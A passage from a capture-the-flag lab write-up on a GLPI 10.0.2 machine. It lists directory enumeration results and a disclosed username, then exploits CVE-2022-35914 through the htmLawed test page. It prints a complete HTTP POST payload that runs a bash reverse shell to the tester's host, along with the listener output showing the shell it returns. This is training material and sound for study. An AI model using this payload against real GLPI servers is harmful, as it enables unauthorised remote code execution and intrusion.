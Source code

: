 ```text
[21:47:50] 301 -  317B  - /pics  ->  http://192.168.169.242/pics/
[21:47:51] 301 -  320B  - /plugins  ->  http://192.168.169.242/plugins/
[21:47:54] 301 -  319B  - /public  ->  http://192.168.169.242/public/
[21:47:56] 200 -   79KB - /phpinfo.php
[21:47:59] 403 -  280B  - /server-status
[21:48:02] 301 -  318B  - /sound  ->  http://192.168.169.242/sound/
[21:48:02] 301 -  316B  - /src  ->  http://192.168.169.242/src/
[21:48:05] 301 -  322B  - /templates  ->  http://192.168.169.242/templates/
[21:48:08] 301 -  319B  - /vendor  ->  http://192.168.169.242/vendor/
```

Tthe changelog file disclosed the exact version of the GLPI which is 10.0.2. The sql error log file disclosed the username in the machine.

http://192.168.169.242/files/_log/

![img](/assets/images/CTF/Proving_Grounds/GLPI/log.png)

## Users

- betty

## CVE-2022-35914

The GLPI v10.0.2 is vulnerable to [GLPI htmlawed (CVE-2022-35914)](https://mayfly277.github.io/posts/GLPI-htmlawed-CVE-2022-35914/) exploit.

Direct to the URL `/vendor/htmlawed/htmlawed/htmLawedTest.php`.

http://192.168.169.242/vendor/htmlawed/htmlawed/htmLawedTest.php

![img](/assets/images/CTF/Proving_Grounds/GLPI/exp.png)

As mentioned in the exploit blog the exploitation is easy if the `exec` function is enabled in the settings and in our case the function has been disabled. So in order to achieve the remote code execution we have to use the callback functions like array_map,call_user_func,…

```http
POST /vendor/htmlawed/htmlawed/htmLawedTest.php HTTP/1.1
Host: 192.168.169.242
Content-Type: application/x-www-form-urlencoded
Content-Length: 127
Connection: close
Cookie: sid=bs


text=call_user_func&hhook=array_map&hexec=system&sid=bs&spec[0]=&spec[1]=bash+-c+'bash+-i+>%26+/dev/tcp/192.168.45.194/80+0>%261'
```

```sh
listening on [any] 80 ...
connect to [192.168.45.194] from (UNKNOWN) [192.168.169.242] 42674
bash: cannot set terminal process group (1084): Inappropriate ioctl for device
bash: no job control in this shell
www-data@glpi:/var/www/glpi/vendor/htmlawed/htmlawed$ 
```
